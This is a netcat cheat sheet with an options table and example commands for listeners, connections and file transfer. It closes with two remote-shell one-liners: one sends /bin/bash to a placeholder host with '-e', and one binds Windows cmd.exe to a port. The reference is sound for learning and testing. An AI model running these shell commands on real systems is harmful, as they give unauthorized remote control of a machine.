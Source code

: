 ## What is Netcat?

The **nc** (or **netcat**) utility is used for just about anything under the sun involving TCP, UDP, or UNIX-domain sockets.  It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.  Unlike telnet, nc scripts nicely, and separates error messages onto standard error instead of sending them to standard output, as telnet does with some.

Common uses include:

           •   simple TCP proxies
           •   shell-script based HTTP clients and servers
           •   network daemon testing
           •   a SOCKS or HTTP ProxyCommand for ssh
           •   and much, much more

Also a very good document : https://quickref.me/nc

### Netcat Cheat Sheet

| **Options**        | **Description** |
| - | - |
| -4                 | Forces the use of IPv4 (GNU Netcat) |
| -6                 | Forces the use of IPv6 (GNU Netcat) |
| -b (buffer)        | Allow broadcast |
| -C                 | Send CRLF as line-ending. Each line feed (LF) character from the input data is translated into CR+LF before being written to the socket. Line feed characters that are already preceded with a carriage return (CR) are not translated. Received data is not affected |
| -D                 | Enable debugging on the socket |
| -d                 | Do not attempt to read from stdin |
| -F                 | Pass the first connected socket using sendmsg to stdout and exit.  This is useful in conjunction with -X to have nc perform connection setup with a proxy but then leave the rest of the connection to another program (e.g. ssh using the ssh_config ProxyUseFdpass option). Cannot be used with -U |
| -h                 | Print out the nc help text and exit |
| -I (lenght)        | Specify the size of the TCP receive buffer |
| -i (interval)      | Sleep for interval seconds between lines of text sent and received. Also causes a delay time between connections to multiple ports |
| -k                 | When a connection is completed, listen for another one.  Requires -l. When used together with the -u option, the server socket is not connected and it can receive UDP datagrams from multiple hosts |
| -l                 | Listen for an incoming connection rather than initiating a connection to a remote host. The destination and port to listen on can be specified either as non-optional arguments, or with options -s and -p respectively. Cannot be used together with -x or -z. Additionally, any timeouts specified with the -w option are ignored |
| -M (ttl)           | Set the TTL / hop limit of outgoing packets |
| -m (minttl)        | Ask the kernel to drop incoming packets whose TTL / hop limit is under minttl |
| -N                 | Shutdown the network socket after EOF on the input.  Some servers require this to finish their work |
| -n (numeric only)  | Do not perform domain name resolution. If a name cannot be resolved without DNS, an error will be reported |
| -0 (lenght)        | Specify the size of the TCP send buffer |
| -P (proxy_username)| Specifies a username to present to a proxy server that requires authentication.  If no username is specified then authentication will not be attempted.  Proxy authentication is only supported for HTTP CONNECT proxies at present |
| -p (source_port)   | Specify the source port nc should use, subject to privilege restrictions and availability |
| -q (seconds)       | After EOF on stdin, wait the specified number of seconds and then quit. If seconds is negative, wait forever (default). Specifying a non-negative seconds implies -N |
| -r                 | Choose source and/or destination ports randomly instead of sequentially within a range or in the order that the system assigns them |
| -S                 | Enable the RFC 2385 TCP MD5 signature option |
| -s (source_address)| Set the source address to send packets from, which is useful on machines with multiple interfaces.  For UNIX-domain datagram sockets, specifies the local temporary socket file to create and use so that datagrams can be received.  Cannot be used together with -x |
| -T (keyword)       | Change the IPv4 TOS/IPv6 traffic class value. Keyword may be one of critical, inetcontrol, lowcost, lowdelay, netcontrol, throughput, reliability, or one of the DiffServ Code Points: ef, af11 ... af43, cs0 ... cs7; or a number in either hex or decimal |
| -t                 | Send RFC 854 DON'T and WON'T responses to RFC 854 DO and WILL requests.  This makes it possible to use nc to script telnet sessions |
| -U                 | Use UNIX-domain sockets.  Cannot be used together with -F or -x |
| -u                 | Use UDP instead of TCP. Cannot be used together with -x. For UNIX-domain sockets, use a datagram socket instead of a stream socket. If a UNIX-domain socket is used, a temporary receiving socket is created in /tmp unless the -s flag is given |
| -V (rtable)        | Set the routing table to be used |
| -v                 | Produce more verbose output |
| -W (recvlimit)     | Terminate after receiving recvlimit packets from the network |
| -w (timeout)       | Connections which cannot be established or are idle timeout after timeout seconds. The -w flag has no effect on the -l option, i.e. nc will listen forever for a connection, with or without the -w flag. The default is no timeout |
| -X (proxy_protocol)| Use proxy_protocol when talking to the proxy server. Supported protocols are 4 (SOCKS v.4), 5 (SOCKS v.5) and connect (HTTPS proxy). If the protocol is not specified, SOCKS version 5 is used |
| -x (proxy_address) | Connect to destination using a proxy at proxy_address and port.  If port is not specified, the well-known port for the proxy protocol is used (1080 for SOCKS, 3128 for HTTPS).  An IPv6 address can be specified unambiguously by enclosing proxy_address in square brackets. A proxy cannot be used with any of the options -lsuU |
| -Z                 | DCCP mode |
| -z                 | Only scan for listening daemons, without sending any data to them. Cannot be used together with -l |

- Netcat listening on port 4444/TCP (Server side):

```bash
nc -lnvp 4444
```

- Connecting to that port from another machine (Client side):

```bash
nc 1.2.3.4 4444
```

- To have the listener save a received text file (Server side):

```bash
nc -lnvp 4444 > local_textfile
```

- To pipe a text file to the listener (Client side):

```bash
cat local_textfile | nc 1.2.3.4 4444 -q 10
```

- Setting up a remote shell listener (reverse shell) :

```bash
nc 1.2.3.4 4444 -v -e /bin/bash
```

or

```bash
nc -lp 4444 -e "c:\windows\system32\cmd.exe"
```